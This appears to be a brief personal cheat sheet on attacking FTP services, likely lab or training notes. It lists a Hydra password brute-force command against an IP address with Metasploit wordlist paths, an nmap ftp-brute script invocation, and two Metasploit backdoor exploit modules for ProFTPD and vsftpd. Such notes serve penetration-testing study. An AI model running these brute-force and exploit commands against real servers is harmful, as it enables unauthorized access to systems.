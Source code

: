 # Hydra

- `hydra -L <userlist> -P <passlist> 192.235.127.3 -t 4 ftp`
- wordlists:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Nmap script
- echo "sysadmin" > users
- ftp-brute --script-args userdb=/root/users (nmap --script ftp-brute --script-args userdb=/root/users -p 21 <ip>)

# Metasploit modules

- exploit/unix/ftp/proftpd_133c_backdoor
- exploit/unix/ftp/vsftpd_234_backdoor
